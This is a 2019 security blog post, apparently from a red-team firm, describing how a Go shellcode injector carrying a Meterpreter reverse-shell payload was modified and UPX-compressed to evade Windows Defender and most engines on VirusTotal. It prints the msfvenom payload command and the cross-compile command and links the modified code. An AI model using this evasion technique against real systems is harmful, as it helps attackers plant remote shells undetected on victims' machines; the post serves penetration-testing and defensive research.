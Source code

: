 ```yaml
---
title: "Bypassing Antivirus with Golang - Gopher it!"
date: "2019-06-20"
categories: 
  - "detection"
  - "jumpsec"
author: "warden"
---
```


In this blog post, we’re going to detail a cool little trick we came across on how to bypass most antivirus products to get a Metepreter reverse shell on a target host. This all started when we came across [a Github repository written in Golang](https://github.com/brimstone/go-shellcode), which on execution could inject shellcode into running processes. By simply generating a payload with msfvenom we tested it and found that it was easily detected by Windows Defender. The Meterpreter payload was generated as follows:

msfvenom -p windows/x64/meterpreter/reverse\_tcp LHOST=x.x.x.x LPORT=xxx -b \\x00 -f hex

The perk of using Go for this experiment is that it can be cross-compiled, from a Linux host for a target Windows host. The command to compile the application was:

GOOS=windows GOARCH=amd64 go build

This would produce a Go exe which would be executed from the command line, along with the shellcode the attacker wanted to inject. This was easily detected, and Windows Defender identified it as Meterpreter without any trouble. As a quick and easy bypass, we tried to compress the executable using UPX in brute mode, which repeatedly compresses it 8 times. No luck here either, as Windows Defender caught it again.

![](images/fig1.png)

_Fig.1- Attempting to run the Go exe file with the shellcode as an argument. As you can see it was easily detected by Windows Defender. We then tried with the UPX compressed sc.exe file, which also didn’t work._

![](images/fig2.png)

_Fig.2 - Of course, the Meterpreter session is killed as soon as the process is detected by Windows Defender._

From here we inspected the source code of the Go program. After some review, we discovered that the main.go source file could be modified to take the shellcode as a variable then compiled – instead of compiling the .exe then adding the shellcode as a command line argument.

![](images/fig3.png)

_Fig.3 - The go-shellcode/cmd/sc/main.go source._

![](images/fig4.png)

_Fig.4 - The modified go-shellcode/cmd/sc/main.go source, where the reference to a command line argument is substituted for a declared variable._

With these we compiled two .exe files, one to be tested without UPX compression, and one with UPX compression. Windows Defender detects the non-compressed version as soon as it touches disk, but does not detect the UPX compressed .exe with static analysis.

![](images/fig5.png)

_Fig.5 - The .exe with no UPX compression is instantly detected as containing a Meterpreter payload by Windows Defender. No dice._

Running the custom UPX compressed .exe file is successful however, and a reverse shell is achieved!

![](images/fig6.png)

_Fig.6 - Running the UPX compressed Go exe file is successful, and a reverse shell is achieved on the victim’s machine._

Fantastic. Let’s run it against VT to check how loud the signature for this is.

![](images/fig7.png)

_Fig.7 - Uploading the UPX compressed Go exe file to Virus Total. Only Cybereason and Cylance detect the file as being malicious._

Only two antivirus engines are picking up that there is a malicious payload in this file, and both of them don’t specify what exactly about the upload is malicious, just that it IS malicious. The UPX compression is likely what’s triggering the alert, as UPX compression can be used to obfuscate malicious files.

![](images/fig8.png)

_Fig.8 - UPX compression in brute mode compresses the exe file 8 times._

And that’s it! In this blog post we detailed how we modified a great Go program from Github (resource listed below) that performed shellcode injection into one that efficiently evaded most antivirus programs.

The gist for this is available [here](https://gist.github.com/JumpsecLabs/202f95f9cce1ff35f140a37de0e62f30)

Reference:

[https://github.com/brimstone/go-shellcode](https://github.com/brimstone/go-shellcode)

[https://boyter.org/posts/trimming-golang-binary-fat/](https://boyter.org/posts/trimming-golang-binary-fat/)

[https://blog.filippo.io/shrink-your-go-binaries-with-this-one-weird-trick/](https://blog.filippo.io/shrink-your-go-binaries-with-this-one-weird-trick/)
